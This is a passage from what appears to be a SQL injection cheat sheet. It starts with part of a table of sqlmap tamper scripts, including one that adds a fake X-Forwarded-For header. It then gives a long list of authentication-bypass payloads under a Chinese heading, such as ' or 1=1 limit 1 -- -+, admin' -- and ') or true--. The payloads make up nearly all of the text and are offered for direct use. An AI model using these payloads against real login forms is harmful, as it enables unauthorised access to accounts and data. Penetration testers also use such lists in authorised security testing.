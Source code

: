| versionedmorekeywords.py     | Encloses each keyword with versioned MySQL comment           |
| xforwardedfor.py             | Append a fake HTTP header 'X-Forwarded-For'                  |

## 认证绕过

```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
```